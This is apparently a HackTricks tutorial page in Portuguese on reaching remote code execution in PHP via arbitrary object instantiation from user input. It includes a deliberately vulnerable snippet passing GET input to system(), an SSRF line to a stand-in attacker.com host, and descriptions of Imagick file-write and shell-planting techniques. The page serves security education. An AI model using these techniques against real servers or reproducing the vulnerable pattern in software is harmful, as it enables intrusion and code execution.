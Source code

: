# PHP - RCE abusando da criação de objetos: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Este é basicamente um resumo de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introdução

A criação de novos objetos arbitrários, como `new $_GET["a"]($_GET["a"])`, pode levar à Execução Remota de Código (RCE), conforme detalhado em um [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Este documento destaca várias estratégias para alcançar RCE.

## RCE via Classes Personalizadas ou Autoloading

A sintaxe `new $a($b)` é usada para instanciar um objeto onde **`$a`** representa o nome da classe e **`$b`** é o primeiro argumento passado para o construtor. Essas variáveis podem ser obtidas de entradas do usuário como GET/POST, onde podem ser strings ou arrays, ou de JSON, onde podem se apresentar como outros tipos.

Considere o trecho de código abaixo:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Neste caso, definir `$a` como `App` ou `App2` e `$b` como um comando do sistema (por exemplo, `uname -a`) resulta na execução desse comando.

**Funções de Autoloading** podem ser exploradas se nenhuma dessas classes estiver acessível diretamente. Essas funções carregam automaticamente classes de arquivos quando necessário e são definidas usando `spl_autoload_register` ou `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
O comportamento do autoloading varia com as versões do PHP, oferecendo diferentes possibilidades de RCE.

## RCE via Classes Integradas

Na falta de classes ou autoloaders personalizados, **classes integradas do PHP** podem ser suficientes para RCE. O número dessas classes varia entre 100 a 200, com base na versão do PHP e nas extensões. Elas podem ser listadas usando `get_declared_classes()`.

Construtores de interesse podem ser identificados através da API de reflexão, como mostrado no exemplo a seguir e no link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via métodos específicos inclui:**

### **SSRF + Deserialização de Phar**

A classe `SplFileObject` permite SSRF através de seu construtor, permitindo conexões a qualquer URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF pode levar a ataques de desserialização em versões do PHP anteriores a 8.0 usando o protocolo Phar.

### **Explorando PDOs**

O construtor da classe PDO permite conexões a bancos de dados via strings DSN, potencialmente permitindo a criação de arquivos ou outras interações:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versões do PHP até 5.3.22 e 5.4.12 eram suscetíveis a ataques XXE através dos construtores `SoapClient` e `SimpleXMLElement`, dependendo da versão do libxml2.

## RCE via Extensão Imagick

Na análise das **dependências de um projeto**, foi descoberto que **Imagick** poderia ser utilizado para **execução de comandos** ao instanciar novos objetos. Isso apresenta uma oportunidade para explorar vulnerabilidades.

### Parser VID

A capacidade do parser VID de escrever conteúdo em qualquer caminho especificado no sistema de arquivos foi identificada. Isso poderia levar à colocação de um shell PHP em um diretório acessível pela web, alcançando Execução Remota de Código (RCE).

#### Parser VID + Upload de Arquivo

Observa-se que o PHP armazena temporariamente arquivos enviados em `/tmp/phpXXXXXX`. O parser VID no Imagick, utilizando o protocolo **msl**, pode lidar com curingas em caminhos de arquivos, facilitando a transferência do arquivo temporário para um local escolhido. Este método oferece uma abordagem adicional para alcançar a escrita arbitrária de arquivos dentro do sistema de arquivos.

### Crash do PHP + Força Bruta

Um método descrito no [**escrito original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) envolve o upload de arquivos que provocam uma falha no servidor antes da exclusão. Ao forçar o nome do arquivo temporário, torna-se possível para o Imagick executar código PHP arbitrário. No entanto, essa técnica foi encontrada como eficaz apenas em uma versão desatualizada do ImageMagick.

## Referências

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
